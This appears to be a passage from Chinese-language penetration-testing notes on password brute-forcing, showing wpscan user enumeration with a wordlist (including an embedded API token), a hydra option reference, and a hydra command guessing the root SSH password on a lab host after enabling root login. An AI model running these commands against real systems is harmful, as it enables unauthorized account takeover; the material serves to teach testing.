 ```bash
$ wpscan --url http://xxx.com -e u -P ./top1000.txt --api-token 6qGDsJorRIvSazNIg9s4mwjxX8nOUPRL3to6fdJgwoo
```

![image-20250317215215191](穷举/image-20250317215215191.png)

## 6 hydra工具使用

```bash
-l login 小写，指定用户名进行破解
-L file 大写，指定用户的用户名字典
-p pass 小写，用于指定密码破解，很少使用，一般采用密码字典。
-P file 大写，用于指定密码字典。
-e ns 额外的选项，n：空密码试探，s：使用指定账户和密码试探
-M file 指定目标ip列表文件，批量破解。
-o file 指定结果输出文件
-f 找到第一对登录名或者密码的时候中止破解。
-t tasks 同时运行的线程数，默认是16
-w time 设置最大超时时间，单位
-v / -V 显示详细过程
-R 恢复爆破（如果破解中断了，下次执行 hydra -R /path/to/hydra.restore 就可以继续任务。）
-x 自定义密码
```



### 6.1 ssh

**配置Ubuntu root用户ssh登录**

```bash
$ sudo apt install openssh-server # 安装ssh
$ sudo nano /etc/ssh/sshd_config
# PermitRootLogin prohibit-password ——> PermitRootLogin yes
$ sudo service ssh restart # 重启ssh服务
```

使用`hydra`对ssh密码进行爆破

```bash
$ hydra -l root -P ./top500.txt -e ns -vV -t 1 -f 192.168.31.50 ssh
```
